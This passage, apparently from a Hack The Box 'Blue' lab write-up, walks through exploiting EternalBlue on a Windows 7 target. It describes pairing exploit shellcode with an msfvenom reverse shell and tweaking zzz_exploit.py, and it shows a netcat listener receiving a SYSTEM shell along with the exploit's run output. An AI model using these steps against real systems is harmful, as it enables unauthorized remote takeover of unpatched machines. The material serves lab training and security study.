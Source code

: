 ```
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

First we are using creating a binary from the assembly code.

Then we are creating a reverse shell binary with msfvenom

We are then adding them together, The eternalblue binary first, followed by the reverse shell.


And on the listener:

```
kali@kali:~/htb/Blue$ sudo nc -nlvp 1337
[sudo] password for kali: 
Listening on 0.0.0.0 1337
Connection received on 10.129.26.106 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

I don’t know if the additional reset, or the different shellcode worked. But I got it working in the end :)

## Comparing myself to the official writeup:

They just use metasploit. A quick 3 step process.

But on the manual directions, they point out that you can use zzz_exploit.py, when I used the checker.py script, it did not return any named pipes. But the writeup says we can use ntsvcs. So let’s try that:

What we have to do is change USERNAME = “” to = “//” on around line 30 in the zzz_exploit script.

And of course modify our payload in the script.

And I can confirm it works:

```
kali@kali:~/htb/Blue$ python zzz_exploit.py 10.129.26.106 ntsvcs
Target OS: Windows 7 Professional 7601 Service Pack 1
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa80044abba0
SESSION: 0xfffff8a001571ae0
FLINK: 0xfffff8a00942f088
InParam: 0xfffff8a00942915c
MID: 0x3c03
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
creating file c:\pwned.txt on the target
Opening SVCManager on 10.129.26.106.....
Creating service kZis.....
Starting service kZis.....
The NETBIOS connection with the remote host timed out.
Removing service kZis.....
```